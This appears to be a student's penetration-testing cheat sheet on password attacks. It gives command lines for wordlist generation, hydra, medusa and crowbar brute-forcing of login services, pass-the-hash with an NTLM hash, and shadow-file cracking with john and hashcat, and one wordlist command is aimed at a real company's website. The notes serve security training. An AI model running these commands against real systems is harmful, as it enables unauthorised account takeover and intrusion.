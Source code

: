 ### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user(post_form_key)=admin&pass(post_form_key)=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cryptography
> $1$: MD5-based crypt ('md5crypt')  
> $2$: Blowfish-based crypt ('bcrypt')[^bcrypt]  
> $sha1$: SHA-1-based crypt ('sha1crypt')  
> $5$: SHA-256-based crypt ('sha256crypt')  
> $6$: SHA-512-based crypt ('sha512crypt')  

md5sum plain-text, sha1sum plain-text, sha256sum plain-text, sha512sum plain-text  
> https://crackstation.net/ (unsalted hash crack)  
###### Generate salted hash
mkpasswd -m sha512crypt foobar -S "M3vwJPAueK2a1vNM"

###### Symmetric
gpg -c --cipher-algo blowfish blowfish.plain  
gpg --decrypt blowfish.plain.gpg  
gpg -c --cipher-algo aes256 aes256.plain  
gpg --decrypt aes256.plain.gpg

###### Asymmetric 
> https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html  

gpg --gen-key(enter realname--Offsec and email--test@example.com for identification)  
gpg --output example-pub.asc --armor --export Offsec  
gpg --recipient Offsec --encrypt plain.txt  
gpg --decrypt plain.txt.gpg  
gpg --import melanie-private.asc  
gpg --decrypt decrypt-me.gpg(need to enter passphrase)  

###### John the ripper
john --wordlist=rockyou.txt hash  
john -form=dynamic='sha1(md5(sha512($p.$s).$p).$s)' --wordlist=rockyou.txt hash  
john --wordlist=rockyou.txt user_shadow_hash($6$VvN1wBiLLmqWtRXY$oPzxsQbXqdzIISj5NzmKeiUcfXGvFJzqi9YFCzOtdOOI4yOqXm.UBiP7oLeDH8kZUgCtwBwY.YcbqVx7RWlj51)  
john hash.txt --format=NT  
>We have two machines, each with an 8-core CPU. On the first machine we would set the --fork=8 and --node=1-8/16 options, instructing John to create eight processes on this machine, split the supplied wordlist into sixteen equal parts, and process the first eight parts locally. On the second machine, we could use --fork=8 and --node=9-16 to assign eight processes to the second half of the wordlist.

###### John crack shadow file
unshadow passwd.txt shadow.txt > unshadowed.txt  
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt  

### Hashcat
```
hashcat -a 0(dictionary) -m 13000 hash wordlist
```
###### Combine each char set(114) with each number(1000) = 114000
```
/usr/lib/hashcat-utils/combinator.bin flag2.txt numbers.txt > hash.txt
```
